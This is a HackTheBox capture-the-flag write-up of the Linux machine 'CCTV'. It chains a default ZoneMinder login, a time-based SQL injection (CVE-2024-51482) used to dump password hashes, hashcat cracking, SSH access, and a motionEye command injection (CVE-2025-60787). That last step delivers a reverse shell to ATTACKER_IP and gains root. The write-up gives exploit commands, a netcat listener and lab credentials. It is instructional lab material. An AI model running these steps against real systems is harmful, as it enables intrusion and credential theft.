# CCTV HackTheBox Machine Writeup

## Machine Detail

| Category | Information |
|---|---|
| Machine Name | CCTV |
| Difficulty | Easy |
| OS | Linux |
| Author | holdthefort |
| Target | 10.129.31.170 |
| Objective | User Flag & Root Flag |

---




# The Brief

Some HackTheBox machines feel like smashing a locked door with a hammer. This one felt different. CCTV looked quiet on the surface, almost boring, like an abandoned security office with dusty monitors still glowing in the dark. But behind those cameras was a chain of weak trust relationships waiting to collapse one by one.

The room itself is categorized as Easy, but the learning value is sharp because it teaches a very realistic attack flow: web enumeration, vulnerable software discovery, credential extraction, password cracking, lateral service discovery, and finally privilege escalation through another vulnerable application. A complete little cybercrime documentary packed into one machine. 🎥

---

# Scanning & Recon

Every investigation starts with finding entrances. Some are hidden tunnels. Others are unlocked front doors pretending to be secure.

The first step was a simple Nmap scan:

```bash
nmap -sCV -A <TARGET>
```

The scan revealed two interesting services:

- Port 22 running SSH
- Port 80 running HTTP

The web server immediately became the prime suspect because Easy HTB machines often hide their attack surface behind a login portal.

## Recon Screenshot





To make local access cleaner, the hostname was added into `/etc/hosts`:

```bash
echo "<TARGET> cctv.htb" | sudo tee -a /etc/hosts
```

Once accessing the website, the homepage advertised CCTV services. Nothing explosive yet. But in the top-right corner sat a login button quietly whispering: “there’s more behind this wall.”

## Website Screenshot





After clicking the login page, the underlying technology appeared: **ZoneMinder**.

ZoneMinder is an open-source CCTV and surveillance management system for Linux that acts like a central brain for security cameras, allowing monitoring, recording, motion detection, and remote camera management through a web interface.

At this stage, the exact version was unknown. Gobuster enumeration did not reveal anything useful.

```bash
gobuster dir -u http://cctv.htb -w /usr/share/wordlists/dirb/common.txt
```

## Gobuster Screenshot





No obvious clues. No exposed changelog. No version leaks.

So the strategy shifted.

Instead of forcing directories endlessly, I tested weak credentials.

Like trying keys found under the doormat.

```text
admin:admin
```

And surprisingly… the door opened.

Inside the dashboard, the exact version became visible:

```text
ZoneMinder v1.37.63
```

## Dashboard Screenshot





---

# The Crack

Now the machine finally had a fingerprint.

Searching vulnerabilities for ZoneMinder v1.37.63 led to:

## CVE-2024-51482

This vulnerability is a **time-based blind SQL Injection** where attackers can inject malicious SQL queries into the application, then extract hidden database information by observing delays in server responses.

Think of it like interrogating a suspect using pauses instead of words.

If the server pauses for 3 seconds, the answer is “yes.”

If it responds instantly, the answer is “no.”

Tiny delays become hidden conversations.

I used the following PoC:

url CVE-2024-51482 PoC Repository: https://github.com/0xDaeras/CVE-2024-51482-POC

The exploit logs into ZoneMinder, injects SQL payloads into a vulnerable parameter, then reconstructs database content character-by-character using response timing. Instead of directly seeing database results, the script performs a binary search on each letter using `SLEEP()` delays. Multiple threads speed up extraction like several miners digging separate tunnels simultaneously.

To dump user credentials:

```bash
python3 exploit.py \
  -t http://cctv.htb/zm \
  -u admin \
  -p admin \
  dump-users
```

## SQLi Exploit Screenshot





Eventually, the database spilled its secrets.

---

# Cracking the Hash

The dumped credentials contained bcrypt password hashes.

## Hash Dump Screenshot



```

Hashcat became the next forensic tool.

For bcrypt hashes, mode `3200` is required.

```bash
hashcat -m 3200 <HASHFILE> <WORDLIST>
```

## Hashcat Screenshot





The password cracked successfully:

```text
opensesame
```

The credentials belonged to user:

```text
mark
```

The vault key was now in hand.

---

# Initial Foothold

SSH access worked immediately.

```bash
ssh mark@<TARGET>
```

Password:

```text
opensesame
```

## SSH Screenshot





Once inside, normal enumeration began.

The usual targets were checked:

- Running services
- Scheduled tasks
- SUID binaries
- Interesting configs
- Internal applications

One service stood out instantly:

```text
motioneye.service
```

motionEye is a lightweight web-based surveillance management platform built on top of Motion, allowing users to control cameras, detect movement, record footage, and manage surveillance settings through a browser.

This matched the CCTV theme perfectly.

Further inspection revealed the service had strong privileges and referenced configuration files containing sensitive data.

## motionEye Enumeration Screenshot




Inside the configuration files, motionEye credentials were discovered.

The service was listening internally on port `8765`.

To access it externally, SSH port forwarding was used:

```bash
ssh -L 8765:127.0.0.1:8765 mark@cctv.htb
```

Now the dashboard became accessible locally:

```text
http://127.0.0.1:8765
```

Credentials:

```text
admin:989c5a8ee87a0e9521ec81a79187d162109282f0
```

## motionEye Dashboard Screenshot





After identifying the version:

```text
motionEye 0.43.1b4
```

Another vulnerability appeared.

---

# Scaling the Walls

## CVE-2025-60787

This vulnerability is a command injection flaw where attacker-controlled configuration values are passed into the Linux shell without proper sanitization. If motionEye runs with elevated privileges, malicious commands hidden inside camera settings can execute directly as root.

Like slipping dynamite into a package labeled “camera filename.”

The following PoC was used:

url CVE-2025-60787 PoC Repository: https://github.com/d3vn0mi/CVE-2025-60787-POC

The exploit authenticates into motionEye, enumerates configured cameras, then injects malicious shell commands into the `image_file_name` setting. When motionEye processes the configuration, the payload gets executed by the underlying Motion service.

A reverse shell payload was selected.

First, activate a listener:

```bash
nc -lvnp 4444
```

Then execute the exploit:

```bash
python3 exploit.py revshell \
    --url http://TARGET:8765 \
    --user admin \
    --password SECRET \
    -i ATTACKER_IP \
    --port 4444
```

## Reverse Shell Screenshot





Seconds later, the listener caught a shell.

And this shell belonged to:

```text
root
```

The entire surveillance system collapsed from a single poisoned configuration field.

---

# Evidence

## Nmap

```bash
nmap -sCV -A <TARGET>
```

## Add Host

```bash
echo "<TARGET> cctv.htb" | sudo tee -a /etc/hosts
```

## ZoneMinder SQLi Dump

```bash
python3 exploit.py \
  -t http://cctv.htb/zm \
  -u admin \
  -p admin \
  dump-users
```

## Crack Bcrypt Hash

```bash
hashcat -m 3200 <HASHFILE> <WORDLIST>
```

## SSH Access

```bash
ssh mark@<TARGET>
```

## SSH Port Forwarding

```bash
ssh -L 8765:127.0.0.1:8765 mark@cctv.htb
```

## Netcat Listener

```bash
nc -lvnp 4444
```

## motionEye RCE

```bash
python3 exploit.py revshell \
    --url http://TARGET:8765 \
    --user admin \
    --password SECRET \
    -i ATTACKER_IP \
    --port 4444
```

---

# User Flag


